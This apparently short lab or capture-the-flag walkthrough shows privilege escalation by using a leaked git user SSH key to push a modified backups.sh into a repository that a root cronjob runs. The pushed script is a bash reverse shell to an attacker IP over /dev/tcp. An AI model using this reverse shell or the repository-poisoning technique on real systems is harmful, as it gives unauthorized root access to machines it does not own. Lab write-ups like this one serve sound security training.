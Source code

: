```yaml
---
description: 'Requirements: Git User SSH Priv Key and Cronjobs'
---
```


# git

```
-rwxr-xr-x 1 root root 2590 Nov  5  2020 /home/git/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
[REDACTED]
-----END OPENSSH PRIVATE KEY-----

#Cronjobs

*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

```
$ ssh -i id_rsa git@192.168.134.125 -p 43022
```

This a rsa priv key for git user and some related files in cron. Combining them?

We will access them with command line.

```
$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022 -o IdentitiesOnly=yes' git clone git@192.168.134.125:/git-server/
```

```
#Update contents of backups.sh

!#/bin/bash
0<&196;exec 196<>/dev/tcp/192.168.49.134/8080; /bin/bash <&196 >&196 2>&196
```

```
$ git add backups.sh
$ git commit -m "evil"

$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push -u origin
```

